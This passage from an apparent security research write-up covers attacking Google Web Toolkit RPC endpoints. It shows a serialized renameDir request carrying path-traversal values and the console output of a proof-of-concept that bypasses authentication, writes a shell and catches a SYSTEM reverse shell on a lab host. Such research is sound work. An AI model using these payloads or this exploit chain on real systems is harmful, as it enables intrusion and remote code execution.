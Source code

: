 ```bash
```

<p class="cn" markdown="1">So we can see that `gwt.py` will not parse cache files that are obfuscated, you will have to use `gwtenum.py` for that.</p>

#### <a id="exploits"></a>Exploitation

<p class="cn" markdown="1">Several functions were vulnerable to different types of attacks but one of the interesting functions I came across, was the renameDir function. This function either wasn't implimented in the actual UI of the target or at the very least I couldn't find it. This is not an issue because as long at the client MIBFileService class impliments it, we can reach it. We can use `gwt.py` to generate the GWT serialized string for us.</p>

```bash
(20) function: renameDir 
(20) number of parameters: 2 
(20) parameters: oldName, newName 
(20) GWT: 6|0|8|https://abc.xyz/some_gwt/|EA595041C3D0ECAA75FAA7D8AAF0DE5A|xx.MIBFileService|renameDir|java.lang.String/2004016611|java.lang.String/2004016611|%s|%s|1|2|3|4|2|5|6|7|8|
```

<p class="cn" markdown="1">The code tells us the parameters, **oldName** and **newName** so my natural instict is to try and attack the endpoint using traversals. I didn't even bother looking at the server-side code for this function.</p>

```
6|0|8|https://abc.xyz/some_gwt/|EA595041C3D0ECAA75FAA7D8AAF0DE5A|xx.MIBFileService|renameDir|java.lang.String|java.lang.String|../../../../../from_some_folder|../../to_some_other_folder|1|2|3|4|2|5|6|7|8|
```

<p class="cn" markdown="1">After bypassing the authentication using other vulnerabilities, it turns out, I can leverage this to achieve remote code execution against my target.</p>

```
saturn:~ mr_me$ ./poc.py 172.16.175.148 172.16.175.1:4444

  Some Target Remote Code Execution Zero Day
  mr_me 2017

(1) bypassing authentication...
(2) leaking a user session...
(+) leaked session: D6D5B3A7ECE0FEF704F93249A7AD3AF6
(3) leaking the viewState...
(4) writing a shell...
(5) rewriting shell location...
(6) executing shell...
(+) starting handler on port 4444
(+) connection from 172.16.175.148
(+) pop thy shell!
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\System32>whoami
whoami
nt authority\system

C:\Windows\System32>
```


[attackinggwt]: https://www.owasp.org/images/7/77/Attacking_Google_Web_Toolkit.ppt
[gwtrpc]: https://docs.google.com/document/d/1eG0YocsYYbNAtivkLtcaiEE5IOF5u4LUol8-LL0TIKU/
[group]: https://groups.google.com/forum/?fromgroups#!forum/google-web-toolkit
[rfc]: http://www.rfc-editor.org/rfc/rfc4648.txt
[toolkit]: https://github.com/GDSSecurity/GWT-Penetration-Testing-Toolset
[CVE-2015-2606]: http://www.zerodayinitiative.com/advisories/ZDI-15-352/
[gwt.py]: https://github.com/sourceincite/tools/blob/master/gwt.py
[example]: https://docs.google.com/document/d/1eG0YocsYYbNAtivkLtcaiEE5IOF5u4LUol8-LL0TIKU/edit#heading=h.nwvro3zaq0ks